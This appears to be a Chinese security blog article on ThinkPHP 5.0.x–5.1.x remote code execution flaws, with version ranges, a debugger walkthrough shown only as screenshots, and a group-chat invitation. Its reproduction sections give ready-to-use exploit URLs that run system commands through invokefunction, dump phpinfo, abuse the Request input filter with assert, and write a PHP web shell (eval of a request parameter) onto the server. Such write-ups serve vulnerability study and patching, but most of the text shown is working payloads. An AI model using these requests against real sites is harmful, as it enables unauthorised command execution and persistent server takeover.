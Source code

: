 #  ThinkPHP框架漏洞解析   
原创 LULU  红队蓝军   2024-08-09 19:00  
  
## ThinkPHP 5.x 远程代码执行漏洞-01   
### 简介  
```
漏洞名称：ThinkPHP 5.0.x-5.1.x 远程代码执行漏洞
影响范围：ThinkPHP v5.0.5 < 5.0.23,ThinkPHP v5.1.0 < 5.1.31
威胁等级：严重
漏洞类型：远程代码执行

```  
  
由于ThinkPHP v5框架对控制器名没有进行足够的安全检测，导致在没有开启强制路由的情况下，黑客构造特定的请求，可直接进行远程的代码执行，进而获得服务器权限。  
### 复现  
  
将TP框架的版本替换到对应的范围即可。这里用的是：**5.1.22**  
>   
> ThinkPHP框架的版本可用通过：$Think.version 在页码输出  
  
#### 命令执行  
```
http://域名/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v72Da8OkibDiakQ9RqNxAqDSGfLzLWMIIH46RlG8vrX3ick460Wvmk98YQMoMu10w9BicumoRAJ7k4Wvg/640?wx_fmt=png&from=appmsg "")  
#### 拿探针  
```
http://www.tp.com/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v72Da8OkibDiakQ9RqNxAqDSGibekeAGSRX0O87xdSqFN9D8rib283I9da14ZNkIaQKapdicLlg8MRUbpg/640?wx_fmt=png&from=appmsg "")  
#### 写shell  
```
http://www.tp.com/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=shell.php&vars[1][]=%3C%3Fphp%20eval(%24_REQUEST%5B6%5D)%3B%3F%3E

```  
>   
>   
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v72Da8OkibDiakQ9RqNxAqDSGvwwzGc0hibgSUyXdJDwbBCF5dIsWxMqN4AicicDFq53sqNKTjhpPbj94Q/640?wx_fmt=png&from=appmsg "")  
### 审计  
  
借助xdebug对代码进行断点调试。主要是看这个代码在Thinkphp底层是怎么运行的，以及MVC实现的方式，只要掌握这个基本就能审计代码了。我们拿第一个命令执行来举例：主要审计如何执行到命令的
点断点：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v72Da8OkibDiakQ9RqNxAqDSGgNRkoK6hicnZbnogLkGhLnYDKgtP2xdyxJNcsBQEe4NNWTmLHDhPSUA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v72Da8OkibDiakQ9RqNxAqDSGwWjib5y270B8icvHLY08F9sdmwZ71dfLvrgcj1XBYSbTPG2TLfUR5ISA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v72Da8OkibDiakQ9RqNxAqDSGvpBqbJjhC9JSX3Tjjekw2VBxyTmRCzloKD0rl1s8dmyerceibN5I9hg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v72Da8OkibDiakQ9RqNxAqDSGGRtY66y9ZqTq5lRtDt4jyCbH362NzEn9beLONg9iafNfVKVYJfaCYag/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v72Da8OkibDiakQ9RqNxAqDSGKo7yiadodc65aNJYfia5njg6ZNor8eFsicgEkhqMiaQ4DgjnTwHOSXwreQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v72Da8OkibDiakQ9RqNxAqDSGvibIic5LDImJajV9KtyibofdvuXulamYCiaoKPgFuSbP7PVvcBSdu5PwHA/640?wx_fmt=png&from=appmsg "")  
  
跳出去继续：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v72Da8OkibDiakQ9RqNxAqDSGwrg2rH5VmkxjK2u6ERpgB7zFaKaiboTXbW4PIU3NQ0Tx421iauHxOucA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v72Da8OkibDiakQ9RqNxAqDSGibwM0vjmWDoEHhKgKNq7R43XmOicpW17a5U2yWNLhvAjML5vhUKlaribg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v72Da8OkibDiakQ9RqNxAqDSGrPaWjB8sHgXxE55bS0uGr6ibbgqSMbaf2gGnHjwwzK5LXbG1Hw91cyQ/640?wx_fmt=png&from=appmsg "")  
  
然后就是无限进入函数内部,直到：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v72Da8OkibDiakQ9RqNxAqDSGfRSqF025D6LFtuxJdFJly5DlQjODhezXOC7CibIAD0xYkg6vXpOMDiaA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v72Da8OkibDiakQ9RqNxAqDSGictWWZsDUk360SmmkOykf7QDcbSzic0wIzibl8JnNE0bRsOEMhBuRXeFQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v72Da8OkibDiakQ9RqNxAqDSGfbMicH5Dxwo2d76hMn0Aaby3ABo46hK2U7wz503lZCltTzW7dsYq53Q/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v72Da8OkibDiakQ9RqNxAqDSGblibiaJ2LdOiaW4v5uuL2uOb8eIowF13NqYcTU12EyI4Fhff1a9w1wPoQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v72Da8OkibDiakQ9RqNxAqDSGYEfzJdu2Bzia1JkHzBE8v4GJiaHKwiaHyzXfxiaDiconF17oJTnMKZwZ08A/640?wx_fmt=png&from=appmsg "")  
  
进去：仔细思考传参  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v72Da8OkibDiakQ9RqNxAqDSGA3iaYIMLshhRTphibohGPAO0KfvuSKqicdIk0QibNWuPa42U7lSicLPFx1g/640?wx_fmt=png&from=appmsg "")  
## ThinkPHP 5.1.x远程代码执行漏洞-02   
### 简介  
```
漏洞名称：ThinkPHP 5.1.x 远程代码执行漏洞
影响范围：ThinkPHP v5.1.0 < 5.1.31
威胁等级：严重
漏洞类型：远程代码执行

```  
### 复现  
#### 命令执行  
```
http://域名?s=index/\think\Request/input&filter=phpinfo&data=1
http://域名?s=index/\think\Request/input&filter=assert&data=phpinfo();

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v72Da8OkibDiakQ9RqNxAqDSGj4r0icfU7VkcEtjMaqvYgWZaF46Svxw6OibsZnGlwnqvE61m7s59Fbzg/640?wx_fmt=png&from=appmsg "")  
#### 命令执行2  
```
http://域名/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=calc

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v72Da8OkibDiakQ9RqNxAqDSGb9MEQhMleRD6PIPERZudeH2FTW95CWiaQNpp7tD8gJnwOmGBXbrTvzw/640?wx_fmt=png&from=appmsg "")  
  
  
加下方wx，拉你一起进群学习  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/ibZ6uZjjH3v5KP8CaWoS7GAJnWQQxPpibNdibOdl0hc3X6uuBy7rLVOoxS0OSd4vdHWcibFpZg9T9Bx6T7Rn87RoIw/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
